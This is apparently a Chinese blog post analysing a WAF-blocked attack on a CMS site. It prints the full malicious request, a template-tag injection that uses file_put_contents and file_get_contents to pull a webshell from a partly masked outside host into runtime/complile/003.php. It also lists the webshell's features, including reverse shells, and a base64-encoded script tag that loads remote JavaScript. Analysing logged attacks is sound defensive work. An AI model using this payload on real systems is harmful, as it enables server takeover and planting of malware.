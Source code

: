 # 记一次网站防护功能



最近在waf后台上看到这个，于是好奇来分析一下

部分字符使用XX代替。

```
GET /?tag&tagstpl=news.html&tag=%7Bpbohome/Indexot:if((get/*-*/(/**/t))/**/(get/*-*/(/**/t1),get/*-*/(/**/t2)(get/*-*/(/**/t3))))%7Dok%7B/pbohome/Indexot:if%7D&t=file_put_contents&t1=runtime/complile/003.php&t2=file_get_contents&t3=http://XXXXXXXXXXX.cn/app/index/taglib/ote.txt HTTP/1.1
user-agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
eagleeye-traceid: a3b5239717551577503652798e
ali-swift-log-host: m.XX.com
ali-cdn-real-ip: 103.XX.XX.144
x-forwarded-for: 103.XX.XX.144
content-type: application/x-www-form-urlencoded
ali-cdn-forward-client-ip: 103.XX.XX.144
ali-swift-stat-host: m.XX.com
accept-encoding: gzip, deflate
host: m.XX.com
accept: */*
x-client-scheme: http
via: hk34.l1, ens-cache10.hk34, l2hk12.l2, ens-cache35.l2hk12
waf-intercept-client-ip-port: 103.XX.XX.144:40895
```

![img](https://imgoss.xgss.net/picgo-tx2025/QQ_1755161620891.png?tx)



于是在浏览器访问，获取到了一些PHP代码。

```
http://XXXXXXXXXXX.cn/app/index/taglib/ote.txt
打开这个首页是一个企业站，应该是这个企业站被挂马了。
```

![image-20250814165558987](https://imgoss.xgss.net/picgo-tx2025/image-20250814165558987.png?tx)



## 丢个ChatGPT分析一下代码ote.txt

## 攻击目的

这是标准的远程文件写入 + WebShell 植入手法：

利用 CMS 模板解析执行任意 PHP 函数（file_put_contents + file_get_contents）。

把攻击者控制的 PHP 代码写到本地一个可访问位置。

后续可以通过访问 runtime/complile/003.php 来远程执行命令，完全控制服务器。

模板最终执行效果等价于：

```
file_put_contents(
    'runtime/XXX/003.php',
    file_get_contents('http://XXXXXXXXXXX.cn/XXX/XX/taglib/ote.txt')
);
```

### **部署方式**：

- 攻击者通过漏洞（如你之前提到的模板标签 RCE）下载并保存 `ote.txt` 到服务器
- 再利用解析漏洞或改名方式让 `.txt` 被当作 PHP 执行

### **功能模块**（常见于 OteTeam 大马）：

1. 文件管理（浏览、上传、下载、删除、修改权限）
2. 数据库管理（执行 SQL、导入导出）
3. 命令执行（直接运行系统命令）
4. 连接反弹（反弹 Shell 到攻击者主机）
5. 插件扩展（加载更多恶意模块）



### 输出恶意标签

尾部

```
$str="XXXXXX";
echo base64_decode($str);
解码后为：

html

<sCripT sRC=//XXXXXXXX></sCrIpT>
```

这会在页面中加载远程 JS（可能进行二次攻击或窃取信息）。







